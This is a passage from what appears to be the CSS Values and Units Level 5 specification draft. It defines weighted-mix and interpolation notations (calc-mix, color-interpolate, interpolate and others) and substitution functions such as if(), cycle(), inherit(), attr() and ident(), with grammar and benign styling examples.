5. If *total* is less than 100%, let *leftover* be `(100% - total)`. Otherwise, let *leftover* be 0%.
6. Return *items* and *leftover*.

> **Note:** At the end of this algorithm, every percentage is set, and the sum of all percentages is either 0% (if they were all specified as 0% to begin with) or 100%. The *leftover* value will be applied to the usage-specific “none” type value mixed into the final result.

#### 6.2.  Mix Resolution {#css-values-5:mix-resolution}

The used value of a valid mix notation is the weighted average of its arguments, as specified by the specific notation.

The computed value is the used value if it is possible to calculate. Otherwise, it is the mix notation itself, with its arguments computed individually.

#### 6.3.  Weighted Average of Numeric and Dimensional Values: the `calc-mix()` notation {#css-values-5:calc-mix}

The **calc-mix()** mix notation represents a weighted average of numeric or dimensional value. Like `calc()`, it is a math function, with the following syntactic form:

```css
<calc-mix()> = calc-mix( [ <calc-sum> <percentage [0,100]>? ]# )
```

The `<calc-sum>` arguments can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid. The result’s type will be the consistent type, made consistent with the type of the <calc-sum> values.

The used value of a valid `calc-mix()` is the result of producing a weighted average of its `<calc-sum>` values, with the weight of each item given by its corresponding `<percentage>` after normalizing these mix percentages. (Any “leftover” mix percentage is applied to a consistently-typed zero value, and thus effectively discarded.)

The computed value of a valid `calc-mix()` is its used value if all of the `<calc-sum>` and `<percentage>` values in it can be resolved, and is a `calc-mix()` notation with each of its <calc-sum> and <percentage> values computed individually otherwise.

#### 6.4.  Weighted Average of Transform Values: the `transform-mix()` notation {#css-values-5:transform-mix}

The **transform-mix()** mix notation represents a weighted average of `<transform-list>`, with the following syntactic form:

```css
<transform-mix()> = transform-mix( [ <transform-list> && <percentage [0,100]> ]# )
```

The used value of a valid `transform-mix()` is the result of producing a weighted average of its `<transform-list>` values, with the weight of each item given by its corresponding `<percentage>` after normalizing these mix percentages. Any “leftover” mix percentage is applied to an identity transform appended to the list. The weighting can be calculated by interpolating each <transform-list> using its <percentage> weight as the interpolation progress from the identity transform towards the <transform-list>. See [CSS Transforms 1 § 9 Interpolation of Transforms](#css-transforms-1:interpolation-of-transforms).

If every `<percentage>` weight can be fully resolved, and the `<transform-list>`s can be interpolated without used-value-time information, then the computed value is the used value; it is otherwise the `transform-mix()` notation itself with its arguments each computed according to their type.

`transform-mix()` is, itself, a `<transform-function>`.

### 7.  Interpolation Mapping Notations: the *-interpolate() family {#css-values-5:interpolation-notation}

Several **interpolation notations** in CSS allow representing an interpolated value corresponding to a certain amount of **interpolation progress** along a defined scale or mapping function (the **interpolation map**). The functional notations follow the syntactic pattern:

```css
*interpolate() = *interpolate( [ progress && global-options? ],
                               stop, [  between-options? , stop ]# )
```

Where:

- *progress* specifies the input position into the interpolation map; see [§ 7.1.1 Specifying the Interpolation Progress](#css-values-5:interpolation-progress-arguments)
- *global-options* specifies additional options for the interpolation as a whole, and defaults for the between-stop interpolation options.
- *stop* represents an interpolation stop; see [§ 7.1.2 Defining the Interpolation Map](#css-values-5:interpolation-map-arguments)
- *between-options* specifies options for the interpolation between the two surrounding stops.

> **Example:** For example, the following changes the background color of an element depending on the width of the viewport:
>
> ```
> background: color-interpolate(100vw in lch,
>   200px: palegoldenrod,
>   800px: palegreen,
>   2000px: powderblue
> );
> ```
>
> - Below `200px`, the color is `palegoldenrod`;
> - From `200px` to `800px`, the color interpolates in `lch` from `palegoldenrod` to `palegreen`;
> - From `800px` to `2000px`, the color interpolate in `lch` from `palegreen` to `powderblue`;
> - Above `2000px`, the color is `powderblue`.

> **Example:** In the following example, the font size interpolates from a smaller size on small screens to a larger size on large screens, easing along the interpolation curve. The author is storing the progress scale in a custom property to be able to re-use it across multiple `font-size` declarations throughout the document.
>
> ```
> html {
>   --font-scale: progress(100vw, 200px, 2000px) ease-in-out;
>   font-size: calc-interpolate(var(--font-scale),
>     0%: 16px,
>     70%: 20px,
>     100%: 24px);
> }
> h1 {
>   font-size: calc-interpolate(var(--font-scale),
>     0%: 1.2rem,
>     40%: 2rem,
>     100%: 3rem);
> }
> ```
>
> > **Issue:** If anyone has better examples to punch in here let us know...

The interpolation notations in CSS include:

- `calc-interpolate()`, for interpolating `<number>`, `<length>`, `<percentage>`, `<time>`, and other dimensions representable in `calc()` expressions
- `transform-interpolate()`, for interpolating `<transform-list>`s
- `color-interpolate()`, for interpolating `<color>` values

and finally the generic `interpolate()` notation, which can represent the interpolation of any property’s values (but only the property’s entire value, not individual components).

> **Issue:** The `interpolate()` notation also has a variant that takes a set of keyframes. It does this by referring to an `@keyframes` rule, and pulling the corresponding property declaration out of that. It would be nice to allow the other mix notations to take keyframe also, but how would we represent a set of keyframes for a component value (rather than a full property value)?

> **Issue:** Do we have enough use-cases to motivate adding `palette-interpolate()`? `palette-mix()` already handles transitions.

#### 7.1.  Global Syntax of the *-interpolate() family {#css-values-5:interpolation-syntax}

The generic syntax of the interpolation notations is as follows:

```css
interpolate-function() = interpolate-function(
  [
    <progress-source> && [ by <easing-function> ]?
    && <easing-function>? && <segment-options>?
  ] ,
  <input-position>{1,2} : <output-value> ,
  [
    [ <easing-function> || <segment-options> ]? ,
    <input-position>{1,2} : <output-value>
  ]#?
)
```

These represent the interpolation progress and interpolation map as described below.

##### 7.1.1.  Specifying the Interpolation Progress {#css-values-5:interpolation-progress-arguments}

The **`<progress-source>`** value type represents the interpolation progress in an interpolation notation. Its syntax is:

```css
<progress-source> = <percentage> | <number> | <dimension> | <'animation-timeline'>
```

where:

****`<percentage>`****

: Represents the interpolation progress as a percentage, with `0%` computing to zero and `100%` computing to 1.

****`<number>`****

: Represents the interpolation progress as a number directly.

  > **Note:** This allows the use of the `progress()` notations and other math functions that output a `<number>`.

****`<dimension>`****

: Represents the interpolation progress as a dimension, which is converted to a number as specified in [§ 7.2 Validation and Normalization](#css-values-5:interpolation-normalization).

  > **Note:** Using a `<dimension>` value as `<progress-source>` requires at least some of the stops in the interpolation map to also use <dimension> positions of the same type. See [§ 7.2 Validation and Normalization](#css-values-5:interpolation-normalization).

****`<'animation-timeline'>`****

: Represents the interpolation progress as the progress of the specified [animation timeline](#web-animations-1:timelines). The values `none` and `auto` are invalid. [CSS-ANIMATIONS-2] [WEB-ANIMATIONS-2]

  If the specified timeline does not exist on the element or otherwise doesn’t have a progress for some reason, this represents an interpolation progress of 0.

> **Note:** Progress values below `0`/`0%` and above `1`/`100%` are unconventional, and potentially awkward, but valid. For example, most easing functions, though they will accept any input, are defined in consideration of progress defined between the [0,1] (i.e. [0%,100%]) range.

###### 7.1.1.1.  Easing Interpolation Progress: the `by <easing-function>` argument {#css-values-5:interpolation-progress-easing}

The interpolation progress given by `<progress-source>` may be optionally modified by the `<easing-function>` specified after the **by** keyword. It applies the specified easing function to the “timeline” of progress as a whole by modifying the interpolation progress before it’s applied to the interpolation map, analogous to `animation-timing-function`.

If omitted, defaults to `linear`

##### 7.1.2.  Defining the Interpolation Map {#css-values-5:interpolation-map-arguments}

Similar to the gradient functions, the interpolation notations define an interpolation map using a stop list, associating **input positions** with **output values**. Each **interpolation stop** represents, essentially, a keyframe of the interpolation map: values between interpolation stops are interpolated between these adjacent keyframes in accordance with the `<segment-options>` and `<easing-function>` arguments applying between those keyframes.

The interpolation map values are defined as follows:

****`<input-position>`{1,2} : <output-value>****

: Represents an interpolation stop associating the specified input position(s) with the specified output values. As with the gradient functions, if two `<input-position>`s are specified, it is treated the same as two stops with the same <output-value>.

  ```css
  <input-position> = <percentage> | <number> | <dimension>
  ```

  > **Note:** `<output-value>` is not given a grammar here, as the specific functions specify what their outputs are. <input-position>, however, is linked to `<progress-source>`, see [§ 7.2.1 Type Checking](#css-values-5:interpolation-validity).

****`<easing-function>`****

: When appearing in the first argument, specifies the “default” easing function to be used between each stop. When appearing between stops, specifies the easing function to be used between the two surrounding stops, overriding any default provided by a global `<easing-function>` argument. (It is analogous to `animation-timing-function`.) If omitted, defaults to `linear`.

  The input progress value to this easing function is the **segment interpolation progress**—​how far the interpolation progress is between the input positions of the nearest stops preceding and following it.

  > **Example:** For example, in `color-interpolate(20%, 0%: red, ease-in-out, 80%: green, 100%: blue)`, the `20%` interpolation progress becomes a `25%` segment interpolation progress, as `20%` is 25% of the way between `0%` and `80%`, the surrounding input positions.

****`<segment-options>`****

: When appearing in the first argument, provides any type-specific interpolation options that apply to every segment in the interpolation map. (For example, `color-interpolate()` allows `<color-interpolation-method>`.) When appearing between stops, provides any type-specific interpolation options that apply to the interpolation segment between the stops on either side of this argument, overriding any default provided by a corresponding global `<segment-options>` argument.

All positions before the first interpolation stop map to the first stop’s `<output-value>`, and all positions after the last interpolation stop map to the last stop’s <output-value>. In other words, the map fills outward from the first/last stop (just like gradients)—​it does not interpolate beyond them.

#### 7.2.  Validation and Normalization {#css-values-5:interpolation-normalization}

##### 7.2.1.  Type Checking {#css-values-5:interpolation-validity}

Each `<progress-source>` and `<input-position>` has a **type**, which can be **proportional** (`<number>`, `<percentage>`, or `<'animation-timeline'>`) or **absolute** (all other types, and <'animation-timeline'>). The proportional types represent progress as a percentage; any mix of these types is valid. The absolute types represent progress in absolute dimensions, and all <progress-source> and <input-position> values that are not proportional must have a consistent type for the notation to be valid. Additionally, an interpolation notation whose <progress-source> is not proportional must have at least one absolute <input-position> (in order to define the interpolation range), or else the notation is invalid.

> **Note:** An `<'animation-timeline'>` has both a proportional type (the percentage progress) as well as an absolute type (`<time>` or `<length>`).

##### 7.2.2.  Calculating the Absolute Interpolation Range {#css-values-5:interpolation-range-calculation}

The **interpolation range** specifies the `<dimension>` values corresponding to 0% and 100% interpolation progress, and thereby defines the mapping between proportional and absolute values.

In an absolutely typed interpolation map, the first and last absolute stops in the list are assigned to 0% and 100%, respectively. (If there is only one absolutely typed interpolation stop, it is assigned to both 0% and 100%.)

A proportionally typed interpolation map does not define an interpolation range.

##### 7.2.3.  Normalizing Absolute Positions and Progress {#css-values-5:interpolation-dimension-normaolization}

If a `<progress-source>` or `<input-position>` is specified as a `<dimension>`, it is normalized to a number by linearly interpolating it between the start and end of the interpolation range. (This can produce values less than 0 or greater than 1.)

> **Example:** For example, given a function like:
>
> ```
> background-color: color-interpolate(300px in hsl, 200px: red, 500px: green, 600px: blue);
> ```
>
> The interpolation range is `(200px, 600px)`, so the `<progress-source>` is converted to the number `0.25`, and the three stops are converted to the numbers `0`, `.75`, and `1`.
>
> Thus, that function is equivalent to:
>
> ```
> background-color: color-interpolate(25% in hsl, 0%: red, 75%: green, 100%: blue);
> ```
>
> In either case, the result will be a color 1/3 of the way between `red` and `green` using HSL interpolation, giving `hsl(40deg, 100%, 50%)`, a light orange.

##### 7.2.4.  Interpolation Stop Fixup {#css-values-5:interpolation-stop-fixup}

Once all interpolation stops have been normalized, they are additionally fixed up so that they progress in order from the first stop to the last. If any stop has an input position that is less than the input position of the preceding stop, it is set to the input position of the previous stop.

#### 7.3.  Interpolation Resolution {#css-values-5:interpolation-resolution}

The used value of a valid interpolation notation is the result of mapping its interpolation progress through the specified interpolation map.

The computed value is the used value if it is possible to calculate. Otherwise, if its interpolation progress, input positions, and interpolation options can all be resolved, then it is simplified to a two-stop interpolation notation with `<number>` values for the interpolation progress and input positions, and all other values computed according to their type. Otherwise, it is the interpolation notation itself, with its arguments computed individually otherwise.

#### 7.4.  Interpolated Numeric and Dimensional Values: the `calc-interpolate()` notation {#css-values-5:calc-interpolate}

The **calc-interpolate()** interpolation notation represents an interpolated numeric or dimensional value. Like `calc()`, it is a math function, with the following syntax:

```css
<calc-interpolate()> = calc-interpolate(
  [
    <progress-source> && [ by <easing-function> ]?
    && <easing-function>?
  ] ,
  <input-position>{1,2} : <calc-sum> ,
  [ <easing-function>? , <input-position>{1,2} : <calc-sum> ]#? )
```

The `<calc-sum>` arguments can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid. The result’s type will be that consistent type.

The `<progress-source>` and `<input-position>` values do not use the inherited calculation context; they resolve percentages as specified in [§ 7.2 Validation and Normalization](#css-values-5:interpolation-normalization).

#### 7.5.  Interpolated Color Values: the `color-interpolate()` notation {#css-values-5:color-interpolate}

The **color-interpolate()** interpolation notation represents an interpolated `<color>` value, with the following syntax:

```css
<color-interpolate()> = color-interpolate(
  [
    <progress-source> && [ by <easing-function> ]?
    && <easing-function>? && <color-interpolation-method>?
  ] ,
  <input-position>{1,2} : <color>,
  [
    [ <easing-function> || <color-interpolation-method> ]?,
    <input-position>{1,2} : <color>
  ]#? )
```

#### 7.6.  Interpolated Transform Values: the `transform-interpolate()` notation {#css-values-5:transform-interpolate}

The **transform-interpolate()** interpolation notation represents an interpolated `<transform-list>`, with the following syntax:

```css
<transform-interpolate()> = transform-interpolate(
  [
    <progress-source> && [ by <easing-function> ]?
    && <easing-function>?
  ],
  <input-position>{1,2} : <transform-list>,
  [ <easing-function>?, <input-position>{1,2} : <transform-list> ]#? )
```

`transform-interpolate()` is, itself, a `<transform-function>`.

#### 7.7.  Interpolated Property Values: the `interpolate()` notation {#css-values-5:mix}

The **interpolate()** interpolation notation represents the interpolation of entire property values, which supports two alternative syntax patterns:

```css
<interpolate()> = interpolate(
  [
    <progress-source> && [ by <easing-function> ]?
    && <easing-function>?
  ] ,
  <input-position>{1,2} : <whole-value>,
  [ <easing-function>?, <input-position>{1,2} : <whole-value> ]#? )
|
  interpolate( <progress-source> && [ by <easing-function> ]?
    && <easing-function>? of <keyframes-name> )
```

The first syntax alternative, like other interpolation notations, assembles an interpolation map from a list of interpolation stops. The second uses the corresponding property declarations from a set of keyframes, incorporating those values into the normal cascade for this property.

Each `<whole-value>` argument is computed as if it were the value of this property; and all other arguments computed according to their type.

> **Example:** For example, most uses of `interpolate()` will resolve at computed-value time:
>
> ```
> color: interpolate(90%, 0: red, 1: blue);
> /* via simple interpolation,
>    computes to: */
> color: rgb(10% 0 90%);
>
> color: interpolate(90%, 0: currentcolor, 1: black);
> /* can't be fully resolved at computed-value time,
>    but still has a defined representation: */
> color: color-mix(currentcolor 90%, black 10%);
>
> float: interpolate(90%, 0: left, 1: right);
> /* discretely animatable */
> float: right;
> ```

The `interpolate()` notation is a `<whole-value>`. Additionally, if any of its <whole-value> arguments are not animatable, the notation is invalid.

> **Example:** For example, the following declarations are invalid, and will be ignored:
>
> ```
> /* Invalid start value */
> color: interpolate(90%, 0: #invalid, 1: #F00);
>
> /* Function is mixed with other values */
> background: url(ocean) interpolate(10%, 0: blue, 1: yellow);
>
> /* 'animation-*' is not animatable */
> animation-delay: interpolate(0%, 0: 0s, 1: 2s);
> ```

### 8.  Miscellaneous Value Substituting Functions {#css-values-5:value-insert}

#### 8.1.  Representing An Entire Property Value: the `<whole-value>` type {#css-values-5:whole-value}

Several functions defined in this specification can only be used as the "whole value" of a property. For example, `background-position: cycle(50px 50px, center);` is valid, but `background-position: cycle(50px, center) 50px;` is not. The `<whole-value>` production represents these values.

All properties implicitly accept a `<whole-value>` as their entire value, just as they accept the CSS-wide keywords as their entire value.

When used as a component value of a function, `<whole-value>` also represents any CSS value normally valid as the whole value of the property in which it is used (including additional <whole-value> functions). However, some functions may restrict what a <whole-value> argument can include.

#### 8.2.  Selecting the First Supported Value: the `first-valid()` notation {#css-values-5:first-valid}

CSS supports progressive enhancement with its forward-compatible parsing: authors can declare the same property multiple times in a style rule, using different values each time, and a CSS UA will automatically use the last one that it understands and throw out the rest. This principle, together with the `@supports` rule, allows authors to write stylesheets that work well in old and new UAs simultaneously.

However, using `var()` (or similar substitution functions that resolve after parsing) thwarts this functionality; CSS UAs must assume any such property is valid at parse-time.

The **first-valid()** functional notation inlines the fallback behavior intrinsic to parsing declarations. Unlike most notations, it can accept any valid or invalid syntax in its arguments, and represents the first value among its arguments that is supported (parsed as valid) by the UA as the whole value of the property it’s used in.

```css
<first-valid()> = first-valid( <declaration-value># )
```

If none of the arguments represent a valid value for the property, the property is invalid at computed-value time.

`first-valid()` is a `<whole-value>`.

> **Issue:** Should this have a different name? We didn’t quite decide on it during the resolution to add this.

> **Note:** Despite effectively taking `<whole-value>`s as its argument, `first-valid()` is instead defined to take `<declaration-value>`s because, by definition, it’s intended to be used in cases *where its values might be invalid for the declaration it’s in*. <declaration-value> imposes no contextual validity constraints on what it matches, unlike <whole-value>.

#### 8.3.  Conditional Value Selection: the `if()` notation {#css-values-5:if-notation}

The **if()** function is an arbitrary substitution function that represents conditional values. Its argument consists of an ordered semi-colon–separated list of statements, each consisting of a condition followed by a colon followed by a value. An `if()` function represents the value corresponding to the first condition in its argument list to be true; if no condition matches, then the `if()` function represents an empty token stream.

The `if()` function’s syntax is defined as follows:

```css
<if()> = if( [ <if-branch> ; ]* <if-branch> ;? )
<if-branch> = <if-condition> : <declaration-value>?
<if-condition> = <boolean-expr[ <if-test> ]> | else
<if-test> =
  supports( [ <ident> : <declaration-value> ] | <supports-condition> ) |
  media( <media-feature> | <media-condition> ) |
  style( <style-query> )
```

The **else** keyword represents a condition that is always true.

The `if()` function’s argument grammar is:

```css
<if-args> = if( [ <if-args-branch> ; ]* <if-args-branch> ;? )
<if-args-branch> = <declaration-value> : <declaration-value>?
```

In the above `<if-args-branch>` production, the first `<declaration-value>` excludes top-level `<colon-token>`s as part of its free-form production restrictions (alongside commas and curly braces).

To **replace an if() function**, given a list of *arguments*:

1. For each `<if-args-branch>` *branch* in *arguments*:

  1. Substitute arbitrary substitution functions in the first `<declaration-value>` of *branch*, then parse the result as an `<if-condition>`. If parsing returns failure, continue; otherwise, let the result be *condition*.
  2. Evaluate *condition*.

     If a `<style-query>` in *condition* tests the value of a property, and guarding a substitution context «"property", referenced-property-name» would mark it as a cyclic substitution context, that query evaluates to false.

     > **Example:** For example, in `--foo: if(style(--foo: bar): baz);` the `style()` query is automatically false, since property replacement has already established a «"property", "--foo"» substitution context.

     If the result of *condition* is false, continue.
  3. Substitute arbitrary substitution functions in the second `<declaration-value>` of *branch*, and return the result.
2. Return nothing (an empty sequence of component values).

> **Note:** Unlike using `@media`/`@supports`/`@container` rules, which just ignore their contents when they’re false and let the cascade determine what values otherwise apply, declarations with `if()` do not roll back the cascade if the conditions are false; any fallback values must be provided inline. However, see the `revert-rule` CSS-wide keyword.

#### 8.4.  Toggling Between Values: the `cycle()` notation {#css-values-5:cycle-notation}

The **cycle()** expression allows descendant elements to cycle over a list of values instead of inheriting the same value.

> **Example:** The following example makes `<em>` elements italic in general, but makes them normal if they’re inside something that’s italic:
>
> ```
> em { font-style: cycle(italic, normal); }
> ```

> **Example:** The following example cycles markers for nested lists, so that a top level list has `disc`-shaped markers, but nested lists use `circle`, then `square`, then `box`, and then repeat through the list of marker shapes, starting again (for the 5th list deep) with `disc`.
>
> ```
> ul { list-style-type: cycle(disc, circle, square, box); }
> ```

The syntax of the `cycle()` expression is:

```css
<cycle()> = cycle( <whole-value># )
```

The `cycle()` notation is a `<whole-value>`. However, it is not allowed to be nested, nor may it contain `attr()` or `calc()` notations; declarations containing such constructs are invalid.

> **Example:** The following `cycle()` examples are all invalid:
>
> ```
> background-position: 10px cycle(50px, 100px);
> /* cycle() must be the sole value of the property */
>
> list-style-type: cycle(disc, 50px);
> /* ''50px'' isn't a valid value of 'list-style-type' */
> ```

To determine the computed value of `cycle()`, first evaluate each argument as if it were the sole value of the property in which `cycle()` is placed to determine the computed value that each represents, called *Cn* for the *n*-th argument to `cycle()`. Then, compare the property’s inherited value with each *Cn*. For the earliest *Cn* that matches the inherited value, the computed value of `cycle()` is *Cn+1*. If the match was the last argument in the list, or there was no match, the computed value of `cycle()` is the computed value that the first argument represents.

> **Note:** This means that repeating values in a `cycle()` short-circuits the list. For example `cycle(1em, 2em, 1em, 4em)` will be equivalent to `cycle(1em, 2em)`.

> **Note:** That `cycle()` explicitly looks at the computed value of the parent, so it works even on non-inherited properties. This is similar to the `inherit` keyword, which works even on non-inherited properties.

> **Note:** The computed value of a property is an abstract set of values, not a particular serialization [CSS21], so comparison between computed values should always be unambiguous and have the expected result. For example, a Level 2 `background-position` computed value is just two offsets, each represented as an absolute length or a percentage, so the declarations `background-position: top center` and `background-position: 50% 0%` produce identical computed values. If the "Computed Value" line of a property definition seems to define something ambiguous or overly strict, please [provide feedback](#css-values-5:sotd) so we can fix it.

If `cycle()` is used on a shorthand property, it sets each of its longhands to a `cycle()` value with arguments corresponding to what the longhand would have received had each of the original `cycle()` arguments been the sole value of the shorthand.

> **Example:** For example, the following shorthand declaration:
>
> ```
> margin: cycle(1px 2px, 4px, 1px 5px 4px);
> ```
>
> is equivalent to the following longhand declarations:
>
> ```
> margin-top:    cycle(1px, 4px, 1px);
> margin-right:  cycle(2px, 4px, 5px);
> margin-bottom: cycle(1px, 4px, 4px);
> margin-left:   cycle(2px, 4px, 5px);
> ```
>
> Note that, since `1px` appears twice in the top margin and `4px` appears twice in bottom margin, they will cycle between only two values while the left and right margins cycle through three. In other words, the declarations above will yield the same computed values as the longhand declarations below:
>
> ```
> margin-top:    cycle(1px, 4px);
> margin-right:  cycle(2px, 4px, 5px);
> margin-bottom: cycle(1px, 4px);
> margin-left:   cycle(2px, 4px, 5px);
> ```
>
> which may not be what was intended.

#### 8.5.  Custom Property References: the `var()` notation {#css-values-5:var-notation}

The `var()` notation substitutes the value of a custom property, see the [CSS Custom Properties for Cascading Variables Module](#css-variables-2:using-variables). [CSS-VARIABLES]

#### 8.6.  Inherited Value References: the `inherit()` notation {#css-values-5:inherit-notation}

Like the `inherit` keyword, the **inherit()** functional notation resolves to the computed value of a property on the parent. Rather than resolving to the value of the same property, however, it resolves to a sequence of component values representing the computed value of the property specified as its first argument. Its second argument, if present, is used as a fallback in case the first argument resolves to the guaranteed-invalid value.

`inherit()` is an arbitrary substitution function whose syntax is defined as:

```css
<inherit()> = inherit( <custom-property-name>, <declaration-value>? )
```

The `inherit()` function’s argument grammar is:

```css
<inherit-args> = inherit( <declaration-value>, <declaration-value>? )
```

Like `var()`, a bare comma can be used with nothing following it, indicating that the second `<declaration-value>` was passed, just as an empty sequence.

> **Note:** That is, `inherit(--foo)` does not pass a fallback value, but `inherit(--foo,)` does (the fallback is just empty).

To **replace an inherit() function**, given a list of *arguments*:

1. Substitute arbitrary substitution functions in the first `<declaration-value>` of *arguments*, then parse it as a `<custom-property-name>`.
2. If parsing returned a `<custom-property-name>`, and the inherited value of that custom property on the element does not contain the guaranteed-invalid value, return that inherited value.
3. Otherwise, if a second `<declaration-value>`? was passed in *arguments*, substitute arbitrary substitution functions in that argument, and return the result.
4. Otherwise, return the guaranteed-invalid value.

> **Note:** Future levels of CSS may allow specifying standard CSS properties in `inherit()`; however because the tokenization of computed values is not fully standardized for all CSS properties, this feature is deferred from Level 5. Note that the computed value differs from the used value, and is not always the resolved value returned by `getComputedStyle()`; thus even if `inherit(width)` were allowed, it would frequently return the keyword `auto`, not the used `<length>`.

#### 8.7.  Attribute References: the `attr()` notation {#css-values-5:attr-notation}

The **attr()** function substitutes the value of an attribute on an element into a property, similar to how the `var()` function substitutes a custom property value into a function.

```css
attr() = attr( <attr-name> <attr-type>? , <declaration-value>?)

<attr-name> = [ <ident-token>? '|' ]? <ident-token>
<attr-type> = type( <syntax> ) | raw-string | number | <attr-unit>
<attr-unit> = <custom-ident>
```

The `attr()` function’s argument grammar is:

```css
<attr-args> = attr( <declaration-value>, <declaration-value>? )
```

Like `var()`, a bare comma can be used with nothing following it, indicating that the second `<declaration-value>` was passed, just as an empty sequence.

> **Note:** That is, `attr(foo)` does not pass a fallback value, but `attr(foo,)` does (the fallback is just empty).

`<attr-unit>` is intended to represents an identifier that is an ASCII case-insensitive match for the name of a CSS dimension unit, such as `px`, or the `<delim-token>` `%`. As this set expands regularly, it is actually specified as a `<custom-ident>`, and triggers fallback behavior when it doesn’t match a known unit (rather than making the function invalid).

The arguments of `attr()` are:

**`<attr-name>`**

: Gives the name of the attribute being referenced, similar to `<wq-name>` (from [SELECTORS-3]) but without the possibility of a wildcard prefix.

  If no namespace is specified (just an identifier is given, like `attr(foo)`), the null namespace is implied. (This is usually what’s desired, as namespaced attributes are rare. In particular, HTML and SVG do not contain namespaced attributes.) Unless otherwise specified, the case-sensitivity/matching rules of `<attr-name>` are identical to attribute selectors (and thus might depend on the host language).

  Whitespace is not allowed between any of the components of `<attr-name>`.

  If `attr()` is used in a property applied to an element, it references the attribute of the given name on that element; if applied to a pseudo-element, the attribute is looked up on the pseudo-element’s originating element.

**`<attr-type>`**

: Specifies how the attribute value is parsed into a CSS value.

  If given as a `type()` function, the value is parsed according to the `<syntax>` argument, and substitutes as the resulting tokens. For this purpose, `<url>` is invalid as a `<syntax-single-component>`. Values that fail to parse according to the syntax trigger fallback.

  > **Note:** `<url>` is banned because, for now, `attr()` values can’t be used in URLs at all due to security concerns.

  If given as the `number` keyword, it causes the attribute’s literal value, after stripping leading and trailing whitespace, to be parsed as a `<number-token>`. Values that fail to parse trigger fallback.

  If given as an `<attr-unit>` value, the value is first parsed as if `number` keyword was specified; if this fails to parse, it triggers fallback. Then, if the <attr-unit> value matches a known CSS unit name or is `%`, the number is turned into a dimension or percentage with that value and the given unit. If the <attr-unit> does not match a known CSS unit, it triggers fallback.

  If given as the `raw-string` keyword, or omitted entirely, it causes the attribute’s literal value to be treated as the value of a CSS string, with no CSS parsing performed at all (including CSS escapes, whitespace removal, comments, etc). No value triggers fallback; only the lack of the attribute entirely does.

  > **Note:** This is different from specifying a syntax of `type(*)`, which still triggers CSS parsing (but with no requirements placed on it beyond that it parse validly), and which substitutes the result of that parsing directly as tokens, rather than as a `<string>` value.

**`<declaration-value>`**

: Specifies a fallback value for the `attr()`, which will be substituted instead of the attribute’s value if the attribute is missing or fails to parse as the specified type.

  If the `<attr-type>` argument is omitted, the fallback defaults to the empty string if omitted; otherwise, it defaults to the guaranteed-invalid value if omitted.

If a property contains one or more `attr()` functions, and those functions are syntactically valid, the entire property’s grammar must be assumed to be valid at parse time. It is only syntax-checked at computed-value time, after `attr()` functions have been substituted.

> **Note:** that the default value need not be of the type given. For instance, if the type required of the attribute by the author is `<length>`, the default could still be `auto`, like in `width: attr(size <length>, auto);`.

> **Example:** This example shows the use of attr() to visually illustrate data in an XML file:
>
> ```
> <stock>
>   <wood length="12"/>
>   <wood length="5"/>
>   <metal length="19"/>
>   <wood length="4"/>
> </stock>
>
> stock::before {
>   display: block;
>   content: "To scale, the lengths of materials in stock are:";
> }
> stock > * {
>   display: block;
>   width: attr(length em, 0px);
>   height: 1em;
>   border: solid thin;
>   margin: 0.5em;
> }
> wood {
>   background: orange url(wood.png);
> }
> metal {
>   background: silver url(metal.png);
> }
> ```

##### 8.7.1.  Substitution {#css-values-5:attr-substitution}

`attr()` is an arbitrary substitution function, similar to `var()`, and so is replaced with the value it represents (if possible) at computed value time; otherwise, it’s replaced with the guaranteed-invalid value, which will make its declaration invalid at computed-value time.

To **replace an attr() function**, given a list of *arguments*:

1. Let *el* be the element that the style containing the `attr()` function is being applied to. Let *first arg* be the first `<declaration-value>` in *arguments*. Let *second arg* be the <declaration-value>? passed after the comma, or null if there was no comma.
2. Substitute arbitrary substitution functions in *first arg*, then parse it as `<attr-name> <attr-type>?`. If that returns failure, jump to the last step (labeled FAILURE). Otherwise, let *attr name* and *syntax* be the results of parsing (with *syntax* being null if `<attr-type>` was omitted), processed as specified in the definition of those arguments.
3. If *attr name* exists as an attribute on *el*, let *attr value* be its value; otherwise jump to the last step (labeled FAILURE).
4. If *syntax* is the keyword `number` or an `<attr-unit>` value, parse *attr value* against `<attr-type>`. If that succeeds, return the result; otherwise, jump to the last step (labeled FAILURE).

   > **Note:** No parsing or modification of any kind is performed on the value.
5. If *syntax* is null or the keyword `raw-string`, return a CSS `<string>` whose value is *attr value*.

   > **Note:** No parsing or modification of any kind is performed on the value.
6. Substitute arbitrary substitution functions in *attr value*, with «"attribute", *attr name*» as the substitution context, then parse with a <syntax> *attr value*, with *syntax* and *el*. If that succeeds, return the result; otherwise, jump to the last step (labeled FAILURE).
7. **FAILURE:**

  1. If *second arg* is null, and *syntax* was omitted, return an empty CSS `<string>`.
  2. If *second arg* is null, return the guaranteed-invalid value.
  3. Substitute arbitrary substitution functions in *second arg*, and return the result.

#### 8.8.  Constructing `<custom-ident>` values: the `ident()` function {#css-values-5:ident}

The **ident()** function represents an arbitrary `<ident>`, built from one or more separate idents, strings, and integers. It is an arbitrary substitution function.

```css
<ident()> = ident( <ident-arg>+ )
<ident-arg> = <string> | <integer> | <ident>
```

The `ident()` function’s argument grammar is:

```css
<ident-args> = ident( <declaration-value> )
```

`ident()` can be used anywhere that an identifier is expected, but it’s most useful to construct `<custom-ident>` or `<dashed-ident>` values.

> **Example:** In the following example, each matched element gets a unique `view-timeline-name` by combining a shared prefix with `sibling-index()` to differentiate each element:
>
> ```css
> .item {
>   /* vtl-1, vtl-2, vtl-3, … */
>   view-timeline-name: ident("vtl-" sibling-index());
> }
> ```

> **Example:** While in many cases `attr()` with the `<attr-type>` set to `<custom-ident>` will do, `ident()` can be used to construct a <custom-ident> using values that come from other elements. In the following example, the `ident()` function combines a custom property defined on a parent with an `attr()` value coming from the element itself:
>
> ```css
> .card[id] {
>   /* E.g. card1, card2, card3, … */
>   --id: attr(id);
>
>   view-transition-name: ident(var(--id));
>   view-transition-class: card;
>
>   h1 {
>     /* E.g. card1-title, card2-title, card3-title, … */
>     view-transition-name: ident(var(--id) "-title");
>     view-transition-class: card-title;
>   }
> }
> ```

> **Example:** To generate a `<dashed-ident>`, simply use a `--` ident as the first segment:
>
> ```css
> .element {
>   anchor-name: ident(-- attr(id));
> }
> ```

To **replace an ident() function**, given a list of *arguments*:

1. Let *arg* be the first item of *arguments*.

   > **Note:** `ident()` only takes a single argument.
2. Substitute arbitrary substitution functions in *arg*, then parse it as `<ident-arg>+`. If that returns failure, return the guaranteed-invalid value. Otherwise, let *pieces* be the result.
